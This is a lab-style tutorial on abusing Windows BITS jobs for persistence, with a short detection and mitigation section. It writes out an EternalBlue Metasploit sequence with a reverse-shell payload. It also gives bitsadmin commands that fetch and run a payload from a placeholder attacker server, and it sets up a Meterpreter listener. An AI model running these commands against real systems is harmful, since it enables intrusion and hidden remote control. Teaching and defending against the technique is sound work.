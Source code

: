 # Exploiting BITS Jobs for Persistence

## 1. Introduction

Background Intelligent Transfer Service (BITS) is a Windows service designed for low-bandwidth, asynchronous file transfers. It is commonly used by Windows Update, messaging applications, and other background services that require efficient file transfer without disrupting network performance. However, adversaries can abuse BITS jobs for malicious purposes, including persistent code execution, downloading and executing payloads, and exfiltrating data.

---

## 2. Understanding BITS Jobs and Why They Are Exploitable

BITS operates by creating and managing jobs that handle file transfers. These jobs can be configured to:
- Download and execute files
- Run commands upon completion or failure
- Store job configurations in a database, avoiding registry modifications
- Persist across reboots with a default maximum lifetime of 90 days (extendable)

The BITS interface can be accessed via:
- PowerShell (`Start-BitsTransfer`, `Get-BitsTransfer`)
- BITSAdmin tool (`bitsadmin /transfer`)

Since BITS jobs are often allowed by host firewalls and do not create obvious new files, they provide a stealthy mechanism for attackers to execute malicious code and maintain persistence on a target system.

---

## 3. Attack Scenario: Persistence via BITS Jobs

### 3.1. Lab Setup

This attack is demonstrated in a controlled lab environment using VMware Workstation. The setup consists of:
- **Attacker:** Kali Linux (running Metasploit Framework)
- **Victim:** Windows 10 (BITS service enabled)
- **Network Configuration:** Host-only or bridged network mode to allow direct communication

### 3.2. Attack Execution

#### Step 1: Gaining Initial Access

The attacker first establishes access to the victim machine. This can be achieved using Metasploit’s exploit modules, such as:
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <victim-IP>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker-IP>
exploit
```
Once access is obtained, the attacker deploys persistence via BITS jobs.

#### Step 2: Creating a Malicious BITS Job

On the compromised Windows machine, the attacker executes PowerShell commands to create a persistent BITS job:
```powershell
$job = Start-BitsTransfer -Source "http://attacker-server/payload.exe" -Destination "C:\Users\Public\payload.exe"
bitsadmin /create /download MaliciousJob
bitsadmin /addfile MaliciousJob "http://attacker-server/payload.exe" "C:\Users\Public\payload.exe"
bitsadmin /setnotifycmdline MaliciousJob "C:\Users\Public\payload.exe" ""
bitsadmin /resume MaliciousJob
```
This command sequence:
- Downloads a payload from the attacker's server
- Saves it to a writable directory (`C:\Users\Public\`)
- Configures the job to execute the payload once the transfer is complete
- Resumes the job to trigger execution

#### Step 3: Achieving Persistence

Since BITS jobs persist in the system’s job queue, they remain active even after reboots. To confirm persistence, the attacker can run:
```powershell
Get-BitsTransfer | Format-Table -AutoSize
```
If the system is restarted, the job will still exist, allowing the payload to be re-executed.

---

## 4. Setting Up a Listener on Kali Linux

To capture the reverse shell, the attacker sets up a Metasploit listener:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attacker-IP>
set LPORT 4444
exploit
```
When the victim executes the payload, a Meterpreter session is established, giving the attacker control over the compromised system.

---

## 5. Detecting and Mitigating BITS Job Abuse

### 5.1. Detection

Administrators can monitor for suspicious BITS jobs by running:
```powershell
Get-BitsTransfer -AllUsers | Select-Object -Property DisplayName, JobState, Owner, TransferType, NotifyCmdLine
```
Additionally, security logs and endpoint detection tools can help identify unexpected BITS activity.

### 5.2. Mitigation

To remove suspicious BITS jobs, execute:
```powershell
Get-BitsTransfer | Remove-BitsTransfer
```
To further secure the system:
- Restrict BITS job creation to trusted applications using Group Policy
- Monitor and log BITS activity for anomalous behavior
- Use application whitelisting to prevent unauthorized execution

---

## 6. Conclusion

BITS Job Persistence is a stealthy technique that attackers can use to maintain access on a Windows system. By leveraging the native BITS service, adversaries can execute payloads, evade detection, and maintain persistence without modifying the registry or creating new scheduled tasks. Understanding this technique is crucial for defenders to detect and mitigate such attacks effectively.
